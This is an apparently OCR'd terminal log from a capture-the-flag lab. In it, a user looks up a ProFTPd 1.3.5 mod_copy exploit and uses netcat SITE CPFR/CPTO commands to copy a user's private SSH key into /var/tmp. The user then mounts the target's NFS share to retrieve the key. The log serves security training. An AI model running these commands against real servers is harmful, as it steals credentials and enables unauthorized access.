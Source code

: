 ```bash

  Exploit: ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution
      URL: https://www.exploit-db.com/exploits/36803
     Path: /opt/searchsploit/exploits/linux/remote/36803.py
File Type: ASCII text, with CRLF line terminators



root@ip-10-10-91-199:~# nc 10.10.167.120 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.167.120]
SITE CPFR /home/kenobi/.ssh/id_rsa           
350 File or directory exists, ready for destination name
oot@ip-10-10-91-199:~# searchsploit -x linux/remote/36803.rb
[i] Found (#2): /opt/searchsploit/files_exploits.csv
[i] To remove this message, please edit "/opt/searchsploit/.searchsploit_rc" for "files_exploits.csv" (package_array: exploitdb)

[i] Found (#2): /opt/searchsploit/files_shellcodes.csv
[i] To remove this message, please edit "/opt/searchsploit/.searchsploit_rc" for "files_shellcodes.csv" (package_array: exploitdb)

  Exploit: ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution
      URL: https://www.exploit-db.com/exploits/36803
     Path: /opt/searchsploit/exploits/linux/remote/36803.py
File Type: ASCII text, with CRLF line terminators



root@ip-10-10-91-199:~# searchsploit -x linux/remote/36803.py
[i] Found (#2): /opt/searchsploit/files_exploits.csv
[i] To remove this message, please edit "/opt/searchsploit/.searchsploit_rc" for "files_exploits.csv" (package_array: exploitdb)

[i] Found (#2): /opt/searchsploit/files_shellcodes.csv
[i] To remove this message, please edit "/opt/searchsploit/.searchsploit_rc" for "files_shellcodes.csv" (package_array: exploitdb)

  Exploit: ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution
      URL: https://www.exploit-db.com/exploits/36803
     Path: /opt/searchsploit/exploits/linux/remote/36803.py
File Type: ASCII text, with CRLF line terminators



root@ip-10-10-91-199:~# nc 10.10.167.120 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.167.120]

500 Invalid command: try being more creative

500 Invalid command: try being more creative

500 Invalid command: try being more creative
SITE CPFR /home/kenobi/.ssh/id_rsa           
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful

500 Invalid command: try being more creative
root@ip-10-10-91-199:~# mkdir /mnt/kenobiNFS
root@ip-10-10-91-199:~# mount 10.10.167.120:/var /mnt/kenobiNFS
root@ip-10-10-91-199:~# ls -la /mnt/kenobiNFS/
total 56
drwxr-xr-x 14 root root  4096 Sep  4  2019 .
```